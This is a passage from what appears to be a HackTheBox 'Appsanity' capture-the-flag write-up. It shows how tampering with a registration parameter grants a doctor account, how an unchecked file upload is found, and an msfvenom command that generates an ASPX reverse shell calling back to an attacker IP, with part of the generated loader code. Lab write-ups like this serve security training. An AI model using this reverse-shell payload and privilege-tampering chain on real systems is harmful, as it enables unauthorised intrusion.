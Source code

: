 Modifying the `AccType` in the registration URL to see what result it gives.

```
Name=hello&LastName=hello&Email=hello%40test.com&Password=hello123&ConfirmPassword=hello123&DateOfBirth=1995-06-14&PhoneNumber=1234567890&Country=India&Acctype=2&__RequestVerificationToken=CfDJ8IivytGz2ipHvrsY-OE4-b6223reN8mWQKL49aya4v3cnC1BWcxOh7NwAVYxAxraWFJNX9FF_KUP77qLAQt2wsbBfXUyyGbmG6Iv33Du7DcdMoNHMqkB_FiGPwpOOSn3xJl5RQrsyxQANpcwEFTNjpA
```

I retrieved the cookie since `AccType = 2` got me the `doctor` account.

I got logged in to `portal.meddigi.htb` using the same cookie.

<figure><img src="../src/Appsanity/digi.png"></figure>

There is an upload section which only accepts PDF files, but the backend doesnt check the file extension. 

## User Flag

So let's prepare a msfvenom `aspx` shell.

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.49 lport=1234 -f aspx -a x64 --platform windows
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3430 bytes
<%@ Page Language="C#" AutoEventWireup="true" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    private static Int32 MEM_COMMIT=0x1000;
    private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

    protected void Page_Load(object sender, EventArgs e)
    {
```